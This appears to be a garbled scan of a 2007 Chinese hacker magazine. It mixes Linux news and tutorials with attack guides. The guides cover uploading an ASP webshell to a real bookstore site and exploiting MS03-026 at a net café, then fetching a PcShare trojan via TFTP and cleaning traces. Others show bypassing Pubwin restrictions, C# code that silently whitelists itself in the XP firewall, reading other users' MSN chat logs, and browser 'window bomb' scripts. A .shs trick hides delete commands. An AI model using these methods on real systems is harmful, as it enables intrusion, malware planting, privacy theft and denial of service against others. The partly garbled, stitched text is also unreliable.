点击“管理”，在管理员登录界面输入得到的账号密码，如图 9。成功登录进入后台，如图 10。在前台发表文章的地方上传我们的图片木马，如图 11。回到后台到“数据管理”进入“上传文件管理”找到我们的图片木马地址，如图 12。再来到“数据管理”的“数据库管理”就可以将我们的图片木马写回为 ASP 木马了，如图 13、图 14。

呵呵，恭喜成功！护卫我私马，如图 15。上传我的图片，通知管理员，拍拍屁股走人，如图 16。

## 五、总结

到此为止，成功检测“江苏特价图书批发网”，而且又是长期最常用而简单的技术方法。我们的队员一直信奉：只求 skill！告诉黑客潜入者有多难，不求快、不求稳，不抛弃、不放弃。与此同时，那些为了学技术所用的黑客，我们也祝你希望中的网络事业一起努力！在此，更多的时间花在理解和实现，只要有一份信念，就有努力的方向。

> **编辑结语**：虽然技术方法很稚嫩，但其中也挖掘出了薄弱的系统，很多人还很难避开！所谓的测试结果是对系统的安全做验证和警醒，这也是网络安全学习和实践的重要组成部分。

---

### Linux 业界动态

1. **OSDL 与 FSG 合并成立 Linux 基金会**
   世界两大 Linux 开放资源组织——Open Source Development Labs（OSDL）和 Free Standards Group（FSG）表示，未来将携手前进，打造共同的 Linux 阵营，以扩大开放源代码的影响力。目前合并双方均拥有庞大企业合作伙伴。OSDL 中有 Linux 之父 Linus Torvalds，建立于 2000 年，旨在将开放资源操作系统推向商业化。FSG 则是 Linux 标准与开放资源基金组织（Linux Standard Base）项目，该项目帮助确认应用程序可运行于不同版本的 Linux 操作系统。

2. **华商达成 Novell 中国代理商**
   前不久，国内顶尖的数据系统整合服务商北京华商达成系统公司正式代表美国的系统软件及企业套件厂商 Novell 的中国市场总代理及其 SUSE 全套产品。SUSE 是 Novell 公司的 Linux 产品，它具有出色的性能和扩展性、易管理性和多项安全措施。Novell 所推出的 SUSE Linux 内核版本，除了支持标准外，在安装时用户还可以自行选择界面，其中包含简体中文。此外，SUSE Linux 已通过中国最新的汉字内码国际标准 GB18030-2000 认证。

3. **Novell 大力推广 SUSE，给“盟友”回马枪**
   曾经 Novell 与微软的结盟让很多人不解。就在 Windows Vista 发售之际，Novell 直接在网页上开办项目，让 XP 与 Vista 用户向 Linux 转型，十分自然地挑战了微软平台的地位。Novell 官方页面：`http://www.novell.com/products/desktop/compare-to-vista.html`。有业内人士说，这款 Linux 的体验在某些方面甚至优于 Vista。

4. **Linux 选择器**
   Linux 发行版众多是众所周知的事情，选出适合自己的 Linux 是件非常难的事。Zegenie Studios 提供的 Linux Distribution Chooser (LDC) 是一个不错的东西，它向你问一堆问题，如你是否了解什么是 Linux？你在安装过程中主要关心什么？你喜欢图形界面还是命令行？最后给你推荐一个适合的 Linux 发行版。访问地址：`http://www.zegeniestudios.net/ldc/`。## 玩转 Linux 之下载篇

**青蛙王子**

从本文中你可以学到：
1. Linux 环境中各类下载软件的安装和使用

Linux 和网络的关系千丝万缕，尤其是使用像 Ubuntu 这样的发行版的时候，如果不能上网，那简直是一种折磨。上网，必然要涉及到的最起码是下载了。Windows 中形形色色的下载软件我们都看得倦怠厌烦了，这里就来介绍一下 Linux 环境中如何来安装和使用这些下载软件。

## 一、准备知识

网上常见的下载形式，根据协议类型一般分为：1. HTTP；2. FTP；3. BitTorrent (BT)；4. Ed2k网。大家对于这些协议是什么可能并不熟悉，不过说起下载软件，大家就都知道了：一般 HTTP 和 FTP 的下载软件是迅雷或者 FlashGet；BitTorrent 一般使用 BitComet 或者 BitTorrent；而 Ed2k 呢，一般都是用 eMule，也就是电驴。说了这些软件，大家可能就对这些协议在下载时是什么状态有个了解了。好了，闲言少叙，开始我们的下载之旅。

如你所言，“下载者”有句话是这么说：“升级，There is no substitute for”。不过问题在于这种说法有些老旧，在 Linux 版本中可选择的工具很多，下面开始介绍几个下载工具。

## 二、HTTP/FTP

大家使用迅雷或者 FlashGet 的时候可能都注意到了，这两个协议基本上是不分开的，而且目前的浏览器都支持这两个协议，所以这里放在一起介绍。

### 1. wget

wget 这个软件是 Linux 中最基本的下载程序，支持 HTTP 和 FTP 协议，支持代理服务器和断点续传等功能，几乎遍布所有的发行版。安装方法是 `sudo apt-get install wget`，其语法规则是 `wget [参数] [URL]`，其中 URL 是 HTTP 或者 FTP 地址。

常用的参数有：
- `-i`：接受输入的 URL，输出链接或路径时，wget 将进行重新定向
- `-c`：继续断点续传
- `-r`：递归下载子目录
- `-O`：指定文件名

打开一个终端（Terminal）输入下载命令如 `wget -c http://ftp.gnu.org/pub/gnu/wget/wget-1.10.1.tar.gz`，就可以下载了。不要小瞧这个命令行下载工具，它的速度可以一点儿也不比图形界面的下载软件差。

上面介绍的只是 wget 最基本的功能，想了解更多，终端中输入 `man wget` 就可以了。

### 2. FlashGot + Gwget

准确地说，FlashGot 并不是下载软件，FlashGot 是 Firefox 的插件，而它的作用是帮助浏览器调用 Linux 下可以下载的软件。

那么使用集成在 Firefox 中的 FlashGot 来管理下载就方便多了。不过这个工具没有下载功能，我们还是要先装一个下载软件。我的安装环境是 Ubuntu、Gnome 桌面环境，所以我选择的是 Gwget（也就是 Gnome wget）。安装方法很简单，`sudo apt-get install gwget` 就可以了。

KDE 环境的话可以选择 KDE 下的 “KGet”。只要有相应的应用程序打开，Gwget 也可以在 KDE 下运行，APT 会帮你搞定这些。

下面来安装 FlashGot。打开 Firefox，输入网址 `http://addons.mozilla.org/firefox/220/`，就可以看到 FlashGot 附加软件的页面了。在页面中点击 “Install now (235 KB)” 的图标。单击后，Firefox 会提示是否安装，然后就开始了下载工作。下载完成后，重启 Firefox 就完成安装。

重启 Firefox 之后，在“工具”菜单中，就能看见 “FlashGot” 的字样。将鼠标移到上面，在弹出的菜单中单击“更多选项”，在“下载管理器”中选择 “GNOME Gwget”，确定即可。

这样就完成了 FlashGot + Gwget 的组合。使用起来也很方便，只需要在要下载的链接上单击右键，再单击“使用 FlashGot 下载此链接”，FlashGot 会自动将链接的地址传递给 Gwget 来完成下载。

## 三、BitTorrent (BT)

BT 协议也是我们常用的下载方式。下面就介绍一下 Linux 中的 BT 下载软件。

### 1. Bittorrent

我第一次用的时候很惊讶，Linux 下的 BitTorrent 竟然也会有命令行。安装 BitTorrent 很简单，`sudo apt-get install bittorrent` 就可以了。不过 BitTorrent 的下载命令并不是 btorrent，而是 `btdownloadcurses`，运行的方法是 `btdownloadcurses --responsefile /path/to/filename.torrent`，其中 `/path/to/filename.torrent` 表示的是 Torrent 种子文件的路径，然后就会在终端中显示下载情况了。

### 2. Azureus

Azureus 是一个基于 JAVA 的多 torrent 下载程序，所以在安装时需要先配置好 JAVA 环境。

## 四、Ed2k

电驴，很神奇。在 Linux 中，我们使用的 ed2k 下载工具是 aMule，是从 eMule 迁移到 Linux 平台的 ed2k 下载软件。

aMule 的使用和 eMule 很像——搜索、下载。在搜索、下载之前先要找服务器列表，aMule 第一次运行时，程序里面是没有服务器列表的。你可以通过配置来下载服务器列表网址，在设置中将其添加到 aMule 的服务器列表文档中。下载完成后即可正常使用。可使用 `http://www.emule.org/server.met` 替换。

## 五、Gnutella

这也是个简单又方便的网络交换文件协议，由 AOL 的一名工程师打造。在 Windows 环境下常见这种协议的软件和使用者，不过在 Linux 中也很流行。LimeWire 是 Gnutella 中最常用的软件了，但它是收费软件。虽然有免费的版本，我们还是看另一个软件吧——gtk-gnutella。

gtk-gnutella 是一个基于 GTK 的 Gnutella P2P 软件。安装方法：`sudo apt-get install gtk-gnutella`。打开 gtk-gnutella 的时候，软件会对列表中的服务器进行连接，以确定哪些服务器可用，之后它的使用方法和 aMule 类似，先通过“搜索”然后“下载”。

尽管名字是 Gnutella，不过从 GNU 得到证实，Gnutella 并不从属于 GNU 与 GPL，它是一个免费软件。

到这里，Linux 下的下载功能介绍完了。我的运行环境是 Ubuntu，除了使用 APT 进行安装的方法外，还可以使用 Synaptic（新立得软件包管理器）或者 Adept 来进行安装，同时也可以通过搜索 ed2k 来安装其他的下载程序。

Ubuntu 相关内容，请参阅 2 月份的《黑客手册》。

【文中涉及的文件已经记录在光盘中，软件包下载：aMule 的服务列表文本文件 server.met】

**编辑点评：**
这篇文章介绍了 Linux 下的各种下载及相关软件的使用。文中的 BT 下载软件都有自己的独特能力。另外，作者没有给出 Debian/Ubuntu 环境下如何安装软件的详细差异，可能会给人留下遗憾。希望未来补上。

---

## 轻松使用 Live CD——让 Live CD 没有 CD 也 Live

### 一、准备工作

尽管 Live CD 使用起来很方便，不过每次都要放在光驱里，实在是太消耗资源了。这里介绍一个办法把 Live CD 装到硬盘里，省去光驱。工具使用 Grub (Grub For DOS 或者 Linux 都可以)。

当然，LiveCD 是必不可少的，我选择的 LiveCD 分别是 Kororaa 0.2、GeeXBoX 0.98.7 和 Hiweed。Kororaa 0.2 是集成了 XGL 技术的 LiveCD，会自动探测显卡并启动 XGL，有 3D 桌面及窗口抖动等效果，很炫。GeeXBoX 是一个简单的媒体播放中心，直接用它就可以播放硬盘、光盘上的视频、音频和图片文件。Hiweed 是针对 Ubuntu 的中文定制版本，使用了 XFce 桌面环境。想了解更多关于 LiveCD 的内容，可以去我们的博客：http://www.linuxblog.cn

### 二、安装方法

首先单独分出一个小分区（称其为 live），FAT32 文件系统，大小 2GB。以 Hiweed 为例，把镜像中的 casper 文件夹放到 live 分区，把 hiweed.gz 和 hiweed 放入 live 分区的 boot 文件夹里，修改 menu.lst，添加启动 Hiweed 的部分如下：

```text
title Hiweed
root (hd0,7)
kernel /boot/hiweed boot=casper ramdisk_size=1048576 root=/dev/ram rw quiet splash debian-installer/locale=zh_CN
initrd /boot/hiweed.gz
```

接着，在 live 分区中建立文件夹 kororaa 和 geexbox，将 Kororaa 和 GeeXBoX 的 ISO 镜像中的内容分别复制进去，并在 menu.lst 中写入对应的 title、root、kernel、initrd。但在尝试中发现，Kororaa 返回的内容提示没有找到备份，而 GeeXBoX 是直接关机。我尝试修改参数（Grub 的内核在 initrd 的参数不可缺少），把 `cdroot=/dev/hda8` 改为 `cdroot=/dev/hda8/kororaa`，但还是失败。

### 三、思考与总结

思考：在根目录下直接放置文件可以启动，而放在子文件夹下就不能启动。我个人认为原因在于参数 “/dev/hda8” 是一个块设备文件，而 “/dev/hda8/kororaa” 只是一个目录，本质上有差异，目录不能直接作为 root 所在，因此导致失败。

总结：这种方法保持了 LiveCD 的原貌，这也意味着每次启动时，它都是新的、不可记录的。这样做虽然比直接安装费空间，且在硬盘上使用的速度会受到影响，但它不会受到以前操作的干扰。通过 LiveCD 体验、学习 Linux，既节省硬盘空间又不用花时间去安装，何乐而不为呢？

---

## 某网吧入侵小记

**伏名**

从本文中你可以学到：
1. Metasploit 的 WEB 控制台的用法
2. TFTP 传输文件的方法

了解了这么多的知识，我的技术已经有了很大的长进。看到高手们的文章，真的好羡慕。今天终于有了一个机会，写出这篇文章，先让大家尝尝鲜。

前些日子到了一家网吧，网管的态度实在是不错。我留在电脑上实验，借助 Metasploit 的 WEB 控制台，轻轻松松地拿到了权限。首先使用 `netstat -an` 命令查看，发现打开了一些危险的端口。

接下来使用 Metasploit。安装好后运行 MSFweb，在浏览器中输入 `127.0.0.1:5555` 就会出现 Metasploit 的 WEB 控制台界面了。首先在选择 exploit 的界面中，选 `Microsoft RPC DCOM MS03-026`。点击后选择系统版本，再选择 payload（即溢出后的动作 ShellCode），选择 `shell_bind_tcp`，输入目标 IP。设置好后点击 EXPLOIT。

出现 session 1 后点击，就获得了一个 SHELL。接下来上传木马，我使用的是 PcShare。先在本地架设好 TFTP 服务器（用的是 TFTP 黑客专用版），将木马放在根目录下。在 SHELL 中输入 `tftp -i 你的IP GET 木马文件名`，成功后会出现 success 的提示。再输入 `start 木马文件名` 即可运行。成功上传并运行后，就可以进行回连控制了。最后别忘了清理痕迹。

【文中涉及到的工具：Metasploit、Tftp服务器、PcShare 已经在光盘中提供】

---

## 突破 Pubwin 网吧系统的方法

从本文中你可以学到：
- 本地破解 Pubwin4 的几种简单方法

来到某大学后，发现那里的网吧使用的是 Pubwin 系统。Pubwin 会随系统自动启动，级别很高，在 Windows 启动几秒钟后它就接管了系统，导致许多功能受限。要在它启动之前或启动后做一些手脚，请看以下方法：

### 方法一

在 Pubwin 启动过程中，迅速打开桌面的 IE 浏览器。在某些版本的 Pubwin4（如 v4.3 以前）中，它启动后无法关闭已经打开的 IE 窗口。此时可以通过 IE 窗口调用资源管理器：依次点击窗口菜单栏里的“查看”——“浏览栏”——“文件夹”，即可切换到文件夹视图，电脑里的所有资源就都出来了。
- 缺点：没有任务栏，且操作不便。

### 方法二

如果 Pubwin 已经启动，可以调出任务管理器（如果没被禁用），在“进程”选项卡中找到 `pub*.exe` 相关进程并尝试结束它。如果系统提示“系统已强制结束，请重新安装”，不要点确定。

此时如果仍然没有任务栏，可以在任务管理器的“文件”菜单里选择“新任务”，输入 `explorer.exe` 即可找回任务栏。

**编辑部点评：**
这是一个关于局域网安全的问题。虽然 RPC (MS03-026) 是老漏洞，但在很多不打补丁的网吧内网依然有效。掌握 Metasploit 这类工具的使用非常重要，但请仅用于安全研究，切勿用于非法用途。## 10 秒钟解除网吧下载限制

佚名

最近发现一个超简单解除下载方法，不用任何工具，拿来给大家分享。

1. 打开 www.biget.com；
2. 在网页左下方有两个选项，单击“在线安装”；
3. 网页提示在线安装成功，下载限制功能解除，这时候你就可以想怎么下载怎么下载了。

提示：如果不喜欢这个下载软件，还可以去找找下载卡发的那款别的软件。

第一软文撰写：这个下载软件的“在线安装”选项的就是 Active-X 技术，这是一种非常常用的网页组件下载机制，通过 Active-X 可以在线运行应用程序，从而达到对下载网吧的限制进行限制。

编辑点评：这个下载软件的“在线安装”选项用的就是 Active-X 技术，这是一种非常常用的网页组件下载机制，通过 Active-X 可以在线运行应用程序，从而达到对下载网吧的限制进行限制。

## Anything in possible ——简简单单穿透 WinXP SP2 防火墙

李小熊

从本文中你可以学到：
1. 了解 Windows 自带防火墙；
2. 利用 RegSnap 注册表分析工具突破防火墙

起因：在 WinXP SP2 发布之后，系统集成了防火墙，虽然自带的防火墙属于鸡肋，但是或多或少地给后端的带来麻烦，那也是内置的防火墙，而对内来说，它们一旦运行，防火墙就会弹出告警对话框，稍微点起就会有这样的情况。其实，通常情况下，防火墙都是随机开启的，较保险的办法则是关闭防火墙或者修改相关设置即可。否则即便找到目标也会被拦截。下面我们就来进一步分析和实现它。

图1 Windows 防火墙

分析：
首先打开防火墙，可以看到 3 个选项—常规、例外和高级，能够对防火墙开启不同方式的管理，在例外之中，可以使用添加和删除按钮来确定此程序可不可以被防火墙的拦挡；
程序保存的用户配置信息大多在注册表、配置文件和数据库中，……

图2 防火墙拦截通知

右侧正文内容继续讲解如何通过系统自带的查找程序来查找最近改动过的文件，并给出 C:\Windows\system32\config\system 等路径示例，以及通过 Socket、IPEndPoint、IPAddress、StreamWriter 等代码实现简单服务器/客户端通信的代码片段。

```
csharp
string Welcome = "Welcome to my server!";
byte[] data = new byte[1024];
try
{
    System.Net.IPEndPoint new IPEndPoint = new IPEndPoint(IPAddress.Any, 9999);
    Socket NewSocket = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
    NewSocket.Bind(new IPEndPoint);
    NewSocket.Listen(5);
    Socket socket2 = NewSocket.Accept();
    socket2.Send(data, 0, data.Length, SocketFlags.None);
    socket2.Shutdown(SocketShutdown.Both);
    NewSocket.Close();
}
catch(Exception err)
{
}

Console.Write("\n"+err.Message);
```

## MSN，你的记录我来看看

从本文中你可以学到：
1. 简单利用 RegSnap 进行系统监视
2. VB 编程实现查看 MSN 聊天记录

MSN 是 MS 的网络产品，相信大家都用过吧。由这么大一家名字子，那么其安全性又如何呢？本文将带你走进 MSN 本地安全性的世界。所谓本地安全一般来说就是指个人信息、密码的存储及聊天记录的保存，前者在以前的“手册”中已经有过介绍，下面我们就来看看聊天记录这一个重要环节。

分析

MSN 在默认情况下是不会保留聊天记录的，也许 MS 也想到了聊天记录可能被泄密这一点，那么设置了保护，又会出现什么情况呢？

运行该代码后，Windows 防火墙就跳出是否拦截的对话框，如图2所示。我们暂时选择“保持阻止”，然后关闭程序。既然知道了防火墙的配置信息是保存在注册表中，那么让我们运行 RegSnap 程序，对注册表做一个快照，并将结果保存，如图3所示。再次运行刚才的程序，这次选择“解除阻止”，然后再做一次快照并保存。OK，现在就可以对比2次快照的结果并分析不同点来找防火墙在注册表中的例外键值了，如图4所示。

## 实现

现在，我们已经清楚了防火墙的主要相关注册表键值，直接编程操纵注册表就可以绕过防火墙的监控了，代码如下：

```
csharp
class AddFirewallList
{
    public void Addlist()
    {
        Microsoft.Win32.RegistryKey hklm=Registry.LocalMachine;//打开LocalMachine键.
        RegistryKey AuthirozedApplications=bklm.OpenSubKey(@"SYSTEM\ControlSet001\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\AuthorizedApplications", true);//定到要操作的键，参数true表示可写入.
        RegistryKey List = AuthirozedApplications.CreateSubKey("List");//打开list键.
        List.SetValue(Process.GetCurrentProcess().MainModule.FileName,Process.GetCurrentProcess().MainModule.FileName+":+:Enabled",0);//将本程序的完整路径添加到List键中.
    }
}

```

运行后如图5所示。

### 写在最后

写到这里，这篇文章算完了，很简单吧，希望各位看官看后有所帮助的感觉，其实很多看起来很高深的网页攻击和安全话题，只要在实践中体验，研究一切问题都能明白。本文的代码在 WinXP SP2+VS2003 下调试通过。

（作者提到的基于 WinXP SP2 防火墙的代码已收录在先集中）

编辑后记：虽然 WinXP SP2 已经推出了有一段时间，但相信不少用户的防火墙使用还是处于关闭状态，不要说微软了，本文的作者就从这个角度出发，我们详细讲解并进行实验。

smallrascal [S.C.T][A.V.T]

1. 不允许例外：键[StandardProfile]，数值名 DoNotAllow Exceptions，数值类型 REG_DWORD；数值数据 1－不允许例外，0－允许例外；
2. 例外中的程序列表：键[DomainProfile\AuthorizedApplications\List]和[StandardProfile\AuthorizedApplications\List]，数值类型 REG_SZ，数值名根据程序完整路径文件名；
3. 例外中的程序列表：键[DomainProfile\AuthorizedApplications\List]和[StandardProfile\AuthorizedApplications\List]，数值类型 REG_SZ，数值名根据程序完整路径文件名；网络范围：是否允许访问网络，显示名称：
(1) 完整路径文件名：例如，d:\windows\awev?e2.exe。
(2) 网络范围：任何计算机（无限制）为*，仅我的网络（子网） LocalSubnet，自定义列表：以逗号分隔的IP地址，子网或网时也可以加入子网的列表（例如：192.168.114.201,192.168.114.255/255.255.255.0）。
(3) 是否允许访问：Enabled 为允许，Disabled 为禁止。
(4) 显示名称：显示在例外列表中的名称，一般为程序版本号或名称，要求是合法的文件名。

## 设计

该如何获取到保存路径呢？首先要用到 RegSnap 这款软件，它的功能是对系统的关键文件夹，如 WINDOWS、SYSTEM32 等，及注册表做一次快速记录，以便以后进行对比，如图 1 所示。

在没有设置保留聊天记录时对系统做一次快照并保存，然后进入 MSN 的选项设置界面，点击左侧功能选择区中的“消息”后，在列表里对应的设置项找到“消息历史记录”，那一项，勾选“自动保留对话的历史记录”，然后点击“更改”按钮来设置保存记录的路径。设置完成后点击“确定”退出，如图 2 所示。

再用 RegSnap 对系统做一次快照并保存，将接变就利用其自身的比较功能对两次快照进行比较，如图 3 所示。

因为要比较的项目多，如果你的机器配置比较低，可能需要等片刻，不要以为是死机了哦。下图便是比较的结果，利用图 2 中的保存记录的路径来查找，我们可以发现该保存路径能在注册表中找到，但是又有一个问题，如果本机有多人使用 MSN，那又该如何获取？别急，听我慢慢讲。

使用 MSN 是每人都有一个账号，此账号的形式就是一串邮箱地址，这个是为了便于记忆，也是为了整合其网站面向对外的、其实在 MSN 的运行机制中还有一个唯一的识别码，那就是类似与 QQ 的号码，上传中提到的“XXXXXXXXXX”就是了，安装完 MSN 后会有一个“0”，每登录一个人账号，账号会向上累加一个号，可以在 HKEY_CURRENT_USER\Software\Microsoft\MSNMessenger\PerPassportSettings 下找到，如果记录的保存路径，发现其中的文件大多为 XML 文件，如图 5 所示。

用 IE 打开，发现全是明文存储的，唉，这个 MSN，就这么公开大家的隐私啊！！！至此，我们已经可以查看保存在本机的聊天记录了，可是每次都能如此被搞地偷窥获取那该多易出错，那就用程序来实现可控吧。

先给出程序的界面与主要控件及其各自属性，这样便于理解下面的程序代码，如图 6、7 所示。

首先要声明 API，常常及全局变量，同时要循环遍历注册表，获取在机登录过的 MSN 号码，并显示在组合框中方便用户选择。代码如下：

```
vb
'定义 MSN 聊天记录存放路径
Dim MessageLogPath As String

Private Sub Form_Load()
    '遍历获取指定注册表项下的子项
    Call EnumKey("HKEY_CURRENT_USER\Software\Microsoft\MSNMessenger\PerPassportSettings")
End Sub

'遍历获取指定注册表项的子项
Function EnumKey(ByVal pKey As Long, ByVal psKey As String) As String
    ...
End Sub
```

## 黑客手册 2007.03 NOHACK

本页为双栏排版的技术文章，内容主要围绕 MSN 聊天记录的读取、注册表访问、字符串处理及相关测试说明展开。

```
vb
Function gfsGetKeyStringValue(ByVal pKey As Long, ByVal psKey As String, ByVal psSubKey As String) As String
    ...
End Function

```

在获取到本机所有 MSN 账号后便可点击组合框选择相应的号码，选定后需要先注册表中获取此账号保存聊天记录的路径，在获取到路径后循环遍历此路径获取保存的聊天记录文件，如果有聊天记录存在，则添加到聊天记录选择的组合框中，如果没有则给出提示。代码如下：

```
vb
Private Sub cobNumber_Click()
    ...
End Sub
```

```
vb
Function gfsGetKeyStringValue(ByVal pKey As Long, ByVal psKey As String, ByVal psSubKey As String) As String
    ...
End Function
```

最后则是在选定好对应的聊天记录后用关联“XML”文件的软件来打开显示。代码如下：

```
vb
'用系统关联的软件打开选好的聊天记录
Private Sub cobLog_Click()
    ShellExecute Me.hwnd, vbNullString, MessageLogPath & "\" & cobLog.Text & ".xml", vbNullString, MessageLogPath, SW_SHOWNORMAL
End Sub
```

现在所有步骤全部完毕，我们编译后来测试一下，结果如图 8 所示。

### 写在最后

看来 MS 的东西也不是那么安全，如此轻而易举地就获取了保存在本地的聊天记录，真让人后怕啊！

（作者提到的 MSN，你的记录我来看的程序已收录在光盘中）

编辑点评：曾经在网上看到过一款名为“MSN 聊天记录查看器”的软件，注册费竟然是 38 RMB，本文的例子是一个功能完全相似，甚至更强的程序，而且免费，再布置这样程序这样的文章以后也经常看到。

## 菜鸟也爱玩电脑炸弹攻略

从本文中你可以学到：
1. 炸弹类型
2. 攻击方法
3. 防范方法

编者按：这个年轻人，成就是……一位铮铮……各位读完后是否已经能在查？没有为什么去沉吧？过年一完，众多菜菜都祝圣上网，初罗一歪，小编就先手将电脑包罗不连来！只见它霍布中不断地发出“嘀滴”的叫声，不一会儿，世界安宁了……奇怪？习惯了！聊天居然让电脑宛若她？聚友其实又没有的CPU了……

## 一、什么是炸弹攻击（炸弹攻击的原理）

这里所说的炸弹攻击并非实际战争中的大规模杀伤性武器，而是利用计算机传播超大量信息数据包来“攻击”目标机的一种手段。大家也许或多或少都接触到“炸弹攻击”这个名词，甚至我们还可以些朋友认为，炸弹攻击本就是各种利用网络信息，借助对方机电脑如懊，网络堵塞等状况，从而造成电脑系统的瘫痪、死机等现象。常见的炸弹攻击有网页炸弹、IP 炸弹（也称花样包炸弹）、DDOS 炸弹、硬盘炸弹、短信炸弹、QQ 炸弹等，一般炸弹攻击的危害都比较大，下面我们就来详细介绍一下。

## 二、各种炸弹的攻击方法

### 1、网页炸弹

网页炸弹就是利用浏览器，对网页页面植入恶意代码，使用户在上网时“无意”中了炸弹。当前的网页炸弹几乎都是利用了 IE 内核的 JavaScript 等功能来达到目的。由于 javascript 等功能浏览器默认都是开启的，给黑客们利用的机会，使浏览网页的人在浏览网页时内存和 CPU 超负荷，甚至死机。网页炸弹的类型有许多种，在这里我只介绍简单的几种：

（注：由于有的炸弹在运行时速度太快，导致电脑一会儿就死机了，根本没时间截图，所以部分炸弹的介绍就不图了。各位读者抱歉啦！）

#### 1-1、背景炸弹

```
html
<script>
var color = new Array;
color[1] = "black";
color[2] = "white";
for(x = 0; x<3; x++){
  document.bgColor = color[x];
if(x==2){x=0;}
}
</script>
```

这个炸弹运行后会让你的窗口背景颜色在黑白两种颜色之间急速无限地更换，使整个屏幕滚动抖动，如果你的电脑配置很低的话就会死机。

#### 1-2、超大图片炸弹

```
html

```

只要将代码中设置好“图片路径”，接着把“任意数字”设置成超大的尺寸就行了，运行后网页上出现一幅特大的图片，会让电脑的 CPU 负荷很高而死机。

#### 1-3、窗口炸弹

窗口炸弹可以根据不同的代码对窗口进行设置，这里也简单介绍几个：

##### 1-3-1、打开无限个窗口

```
javascript
<script language="javascript">  javascript:do{alert(“我...的炸弹怎么玩？");}while(n==1)</SCRIPT>
或者：
```

##### 1-3-2、打开无限个对话框

```
javascript
<script language=javascript>
//Hide the javascript from older browsers
window.alert(啥啥，我的窗口炸弹！)
//End hiding of script
</script>
```

##### 1-3-3、第三种

```
javascript
<SCRIPT LANGUAGE="JavaScript">
function WindowBomb(){
  var iCounter = 0; // dummy counter
  while (true){
    window.open('http://gbgk.hackerxfiles.net','CRASHING'+iCounter,'width=1,height=1,resizable=no');
    iCounter++;
  }
}
</SCRIPT>
```

这种炸弹是我们最常见的一种，当我们运行后 IE 就会打开无数个新的窗口，直到内存耗尽、CPU 超负荷，我们不得不重新启动计算机。如图1。

### 2、硬盘炸弹

硬盘炸弹是利用一些程序，使硬盘受到超负荷或者格式化硬盘以及所有硬盘的分区表等，我们来看看它的 3 种利用方法：

#### 2-1、江民硬盘逻辑炸弹

前段时间爆发的江民硬盘逻辑炸弹大家可能都耳熟目染，这是一个极危险的硬盘炸弹，运行后它会把硬盘做出类似死机在引导区的某个位置上，造成硬盘物理损坏，致使 DOS3.3 以上的各种系统无法正常启动，我们首先来介绍一个江民硬盘逻辑炸弹代码。

由于计算机在引导 DOS 系统时会去搜索所有逻辑盘的顺序，首先要去找的是主引导扇区的分区表信息，一个位于硬盘的零号逻辑盘在第一个向区的 OBEH 地址开始的地方。分区信息开始的地方为 80H 时，表示是主引导区，其他的扩展分区，主引导分区按定义为逻辑盘 C 盘，扩展分区的逻辑盘按定义为 D 盘，以此类推找到 E、F、G 等盘符……江民炸弹就是在此下手，修改了正常的主引导分区记录，将扩展分区的第一个逻辑盘指向自己。DOS 在启动时查找到第一个逻辑盘后，直接下个逻辑盘，总是找到自己这样一来就形成了死循环，当然就是使用软驱、光驱、双硬盘都不能正常启动的原因了。实际上江民炸弹只是利用了 DOS 在启动时的一个小小缺陷，便令不少人束手无策。

所以，使用这种方法来“轰炸”对方已经毫无用了，难道我们没有别的办法了吗？不是的，我们可以利用 QQ 传送文件的功能来达到一样的目的，由于 QQ 传送文件的地方没有作任何限制，所以我们就可以轻易地利用这一 BUG。利用 QQ 攻击工具，运行以后，点击生成，这时会弹出一个对话框，如图 6 所示。

#### 2-2、Caretm3

Caretm3 是个非常恶毒的恶意攻击软件，运行后如果不知道正确的破解方法，必须重装系统。Caretm3 只有一个文件 Caretm3.exe，这一点不要和易运行使用这个图标的软件区分开。

如果不小心运行了 Caretm3，就会出现如图 3 所示画面，然后鼠标就会被控制在一定范围内，无法点击屏幕上的按钮。按动回车键就会弹出一个警告窗口，告诉你不要随意进行可执行程序，接着程序自动重新启动电脑，但你再也无法进入 Windows 桌面了。如果没有按动任何键，Caretm3 也会自动倒计时，从 20 秒开始一直到 0 就重新启动电脑，使你痴痴滴。

这种炸弹的原理是击坏 C:\windows\system\下的 vmm32.vxd 文件。vmm32.vxd 是控制设备驱动程序，由于它被破坏了，就会导致计算机不能进入 Windows 系统。

#### 3、QQ 炸弹

所谓的 QQ 炸弹，就是通过 QQ 来对方对方机或者网络堵塞的方法，很久以前就已经有朋友们在用了！一般以崇士人一般是利用这种方法给对方发送大量的信息，使对方网络堵塞，但是效率很低，而且现在的新版本都可以预防，比如在 QQ 中，专与对方聊天的时候很快时，QQ 顶窗天上方就会出现“对不起，您说话的速度太快了，坐下来说杯咖啡休息一下吧”的话句，很搞笑得说。

#### 4、电子邮件炸弹

邮件炸弹，简单来说就是针对一个邮箱地址，以窃犯炸炸般的向它发送大量的垃圾邮件的目的。这种攻击手段不仅用于扰乱用户的电子邮件系统正常使用，甚至还可能影响到邮件服务器的安全，造成整个网络系统全部瘫痪。所以，电子邮件炸弹是一种杀伤力极其强大的网络武器。

利用 Windows 的“封装对象”特性，用户可以将一个文件从资源管理器中拖到另一个文件夹中，形成一个“物体文件”。如果将其扩展名改为“shs”，也会显示为“隐藏对象”。

下面我来教大家用“shs”扩展名文本文字弹片的制作方法：

首先建立一个空文本文件（空白行格式），然后点击菜单栏中的“插入对象”，选择“从文件创建”，选择好要复制打开的病毒文件，如图11所示。

然后，在写字板中会出现一个程序的图标，如图12；选中该插入对象图标，然后选择菜单栏中的“编辑—复制对象”，在弹出的对话框中，选择菜单栏中的“编辑—复制”，这样会弹出一个提示我们输入命令的对话框，如图13；我们可以在其中输入想要执行的命令，如 c:\del d:\123.rar，这意思是删除 d 盘的 123.rar 文件。在这里输入什么命令，程序打开后就会运行什么命令，要是你觉得不够炫的话就直接写上盘命令吧！呵呵……

输入完毕后点击“确定”，然后点击上方的“插入图标”按钮，会弹出一个警告对话框，确认后左边会出现一个图标。接着在菜单中选择“编辑—复制”，然后在资源管理器中粘贴，这样保存后的文件就如图14；但是如果想显示不出来，实际上我们将原来的文件改名为“被.txt”，然后保存为“shs”后缀，注意这样被复制的文件就变成了隐藏的“隐藏对象”。打开这个文件，就会发现 CMD 窗口一闪而过，我们已启动的123.rar 文件已经被删除了，而且刚才插入的病毒文件已经运行了。

如果邮件地址发送失败或出错，则在邮件地址前面会加上错误标识，发给失败者可能是邮件地址无效，服务器忙延迟接收，服务器忙等原因，我们可以再换一个邮箱地址投信。

#### 5. TXT文本炸弹

比较难识别，前几色彩性也不小，现在的 TXT 文本炸弹一般分为三种类型：

- 隐藏的 HTML 扩展名文本炸弹
- shs“壳”扩展名文本炸弹
